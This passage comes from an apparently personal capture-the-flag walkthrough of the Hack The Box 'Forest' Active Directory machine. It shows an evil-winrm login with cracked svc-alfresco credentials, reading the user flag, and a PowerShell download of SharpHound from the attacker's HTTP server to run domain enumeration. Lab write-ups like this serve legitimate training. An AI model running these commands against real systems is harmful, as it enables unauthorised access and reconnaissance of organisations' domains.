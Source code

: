 Note: if the hashcat doesn't work, request for a krb ticket again by executing the kerbrute command or use `impacket-GetNPUsers`

## Gaining a foothold
we can try to log in as svc-alfresco into winrm
```
evil-winrm -i 10.10.10.161 -u svc-alfresco -p s3rvice
```

then move to the Desktop directory of svc-alfresco and get the flag(note: you can't use relative paths in evil-winrm so you got to use full paths)
```
type C:\Users\svc-alfresco\Desktop\user.txt
```

![](../Assets/Screenshot%202025-06-23%20at%2011.57.29%20AM.png)

### Enumeration Again...
transfer SharpHound from our attack host to the ip address

Note: I actually spent a lot of time trying out different versions of sharphound (both exe and ps scripts) because most of it weren't working on the forest machine. 
#### FileTransfer
download SharpHound.ps1 on our attack host first https://github.com/SpecterOps/BloodHound-Legacy/tree/master) and then start a HTTP Server in the directory where the executable is 
```
python3 -m http.server
```
and then back on the winrm we download the file
```
(New-Object Net.WebClient).DownloadFile('http://<ip-address-of-your-machine>:8000/SharpHound.exe','C:\Users\svc-alfresco\Desktop\SharpHound.exe')
```
SharpHound.exe didn't work very well so i did the same but with SharpHound.ps1

in evil-winrm
```
.\SharpHound -c All --LdapUsername svc-alfresco --LdapPassword s3rvice --ZipFileName htb.zip
```
